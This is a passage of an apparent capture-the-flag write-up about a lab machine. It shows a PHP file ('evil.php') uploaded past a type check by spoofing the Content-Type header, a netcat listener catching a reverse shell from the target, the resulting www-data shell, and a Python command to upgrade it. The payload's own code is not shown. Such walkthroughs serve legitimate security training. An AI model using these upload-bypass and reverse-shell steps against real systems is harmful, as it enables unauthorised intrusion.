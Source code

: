 Note we specify the content type header in our submission as `Content-Type: application/x-php`

Lets replay with the Request Editor Feature in ZAP it by right clicking on the data and editing the header as:

{% highlight http %}
-----------------------------6880877471789511041406832871
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: image/png
{% endhighlight %}

This time I get the following response data:

{% highlight http %}
Upload: evil.php<br />Type: image/png<br />Size: 2.962890625 Kb<br />Upload Completed. <br />Please refresh to see the new screenshot.
{% endhighlight %}

Looks like the server doesn't restrict the upload types.

I set up a listener on my Linux with:

{% highlight shell %}
nc -nvlp 1337
{% endhighlight %}

Right click the "no image found" image url and get a shell:

{% highlight plaintext %}
listening on [any] 1337 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.6] 48695
{% endhighlight %}

This times out after 20 seconds because of the ZAP proxy settings:

{% highlight plaintext %}
Failed to read http://10.10.10.6/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.php within 20 seconds, check to see if the site is available and if so consider adjusting ZAP's read time out in the Connection options panel.
{% endhighlight %}

I disable the proxy and shutdown ZAP as its done its job and re-trigger the connection.

With this access I have a low priv shell and can claim the user flag.

{% highlight shell %}
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}


## Priv Escalation

I try to upgrade to a bash shell with python:

{% highlight shell %}
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}
